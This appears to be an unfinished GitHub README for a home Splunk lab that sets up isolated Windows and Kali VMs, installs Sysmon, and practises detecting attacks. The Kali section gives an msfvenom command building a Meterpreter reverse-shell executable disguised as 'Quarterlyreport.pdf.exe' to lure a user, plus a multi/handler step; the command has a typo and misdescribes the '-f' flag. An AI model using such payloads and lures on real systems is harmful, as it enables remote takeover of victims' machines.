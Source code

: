 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VM's, One being Windows and the other being Kali Linux, with the network adapter set to the Internal Network setting while making both VM IP's static to the same network, I selected this network scheme for security purposes because I do not want these VM's routing to the internet while still being able to communicate with the other. 
The IP's in this lab are: Windows box - 192.168.33.2, Kali box - 192.168.33.3 
<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />
Ref 1: Virtual Box Settings

To set up our blue team environment, we will be configuring Sysmon on the endpoint to gather logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to our directory, and running the command ./sysmon64.exe -i sysmonconfig.xml
Installing Sysmon will enhance our ability to capture system events (Since I don't want to expose these VMs to the internet, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file into the box.) 

SPLUNK SETUP

Quarterlyreport.pdf.exe

KALI SETUP

Created Malware payload msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool 
lhost determines where this reverse shell will remote back to, we chose the IP of the red team box
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)


ran multi/handler on msf exploit 
